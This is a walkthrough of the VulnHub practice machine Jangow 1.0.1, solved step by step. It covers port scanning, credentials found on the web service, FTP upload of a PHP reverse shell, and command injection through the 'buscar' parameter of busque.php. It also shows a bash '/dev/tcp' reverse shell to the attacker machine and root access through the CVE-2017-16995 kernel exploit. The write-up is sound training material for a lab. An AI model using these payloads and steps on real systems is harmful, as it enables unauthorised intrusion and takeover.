# Jangow: 1.0.1 Walkthrough

## Preparation
1. Download Jangow.1.0.1.ova file ([Jangow.1.0.1.ova](https://download.vulnhub.com/jangow/jangow-01-1.0.1.ova))

1. Add the Jangow.1.0.1.ova file in the VirtualBox

1. Set the network adapter to Host-only Adapter
    * Attached to: **Host-only Adapter**
        

1. Start the Jangow.1.0.1 virtual machine
    * Turn on the Jangow.1.0.1 virtual machine from the VirtualBox  
      

1. Confirm the IP address of the Jangow.1.0.1 virtual machine from the attack virtual machine  
    * `sudo netdiscover -i enp0s3 -r 192.168.56.0/24`  
      
      
        * 192.168.56.100: DHCP Server
        * **192.168.56.118**: Jangow.1.0.1 Server  

1. Set the Jangow.1.0.1 IP address to the environment variance  
    * `export IP=192.168.56.118`  

## Reconnaissance
1. Do portscan using Nmap  
    * `sudo nmap -sC -sV -Pn -p- $IP -oN nmap_result.txt`  
      
        * -sC: Scan with default script
        * -sV: Show software name and the version
        * -Pn: Do not confirm communication before port scan (We have already confirmed the DC-2 IP address.)
        * -p-: Scan all ports (from 0 to 65535 ports)
        * -oN: Output the scan results to the specified file
    * As we see the nmap result, we can attempt to access of 21 (FTP Service) and 80 (HTTP Service) ports.  

1. Access to the HTTP Service  
    * Access with Web browser  
      
      
      
      
        - Username: **desafio02**  
        - Password: **abygurl69**  
    * See the other directory  
      
      
      
        - Username: **jangow01**  
        - Password: **abygurl69**  

1. Access to the FTP service  
    * Use jangow01 information  
      
        - `ftp $IP`  
        - Username: **jangow01**  
        - Password: **abygurl69**  

## Execution  
1. Make a reverse shell  
    * Copy the code (https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and make a reverse shell  
        - ip: 192.168.56.101  
        - port: 5555  

1. Upload a file in the /tmp directory  
    * Use FTP  
        - `cd /tmp`  
        - `put php-reverse-shell.php`  
        - `chmod 777 php-reverse-shell.php`  

1. Copy the php-reverse-shell.php in the site directory  
    * Use curl  
      
        - `curl http://$IP/site/busque.php --get --data-urlencode "buscar=cp /tmp/php-reverse-shell.php ./"`  
        - We can move the php-reverse-shell.php to the site directory  
        - Unfortunately, we cannot connect the shell  

1. Change iptables setting  
    * Set to transfer to the 1234 port  
        - `sudo iptables -t nat -L`  
        - `sudo iptables -A PREROUTING -t nat -p tcp --dport 400:65535 -j REDIRECT --to-port 1234`  

1. Make forwarding confirmation program  
    * Use python  
      
        - `chmod +x fw_test.py`  

1. See the communication between ParrotOS and the Jangow.1.0.1  
    * Use tcpdump with a new terminal  
        `sudo tcpdump -i enp0s3 host 192.168.56.101 and host 192.168.56.118`  

1. Open Netcat  
    * Setupt the netcat with a new terminal  
        - `nc -lnvp 1234`  

1. Confirm port forwarding  
    * Execute the w_test.py  
      
        - The Jangow machine can communicate with outbound port 443.  
    * Remove iptables ridirect rule  
        - `sudo iptables -t nat -F`  

1. Establish a session with reverse shell  
    * Confirm the bash path from the Web browser  
      
        - `http://192.168.56.118/site/busque.php?buscar=which bash`
    * Do Netcat with a new terminal  
        - `sudo nc -lnvp 443`  
        - The port is **443**  
    * Establish a session  
      
        - `curl http://$IP/site/busque.php --get --data-urlencode "buscar=/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.101/443 0>&1'"`  

1. Seize shell  
    * Get TTY shell  
        - `python3 -c 'import pty; pty.spawn("/bin/bash")'`  

1. Change the user  
    * Change from www-data user to jagow01 user  
        - `su jangow01`  
        - Password: **abygurl69**  

## Persistence  
1. Find vulnerabilities using LinPEAS 
    * Download the LinPEAS file (https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)  

1. Upload the LinPEAS file  
    * Use FTP  
        - `cd /home/jangow01`  
        - `put linpeas.sh`  

1. Execute the linpeash.sh  
    * Add an execute permission  
        - `cd /home/jangow01`  
        - `chmod +x linpeas.sh`  
    * Execute the linpeas.sh  
        - `./linpeas.sh > output`  
        - `cat output`  
    * Confirm the vulnerabilities  
      
        - Exploit CVE-2017-16995 vulnerability  

1. Make exploit code  
    * Download the code (https://www.exploit-db.com/download/45010)  
    * Make the exploit file  
        - `cat > 45010.c`  
        - Paste the exploit code  

1. Upload the exploit code using FTP  
    * Transfer the file to the Jangow01  
        - `ftp 192.168.56.118`  
        - `cd /home/jangow01`  
        - `put 45010.c`  

## Privilege Escalation  
1. Execute 45010 file  
    * Compile the source code  
        - `gcc 45010.c -o exploit`  
    * Execute the exploit file  
      
        - `./exploit`  

## Credential Access  
1. Open the root flag file  
    * Open the proof.txt  
      
        - `cd /root`  
        - `cat proof.txt`  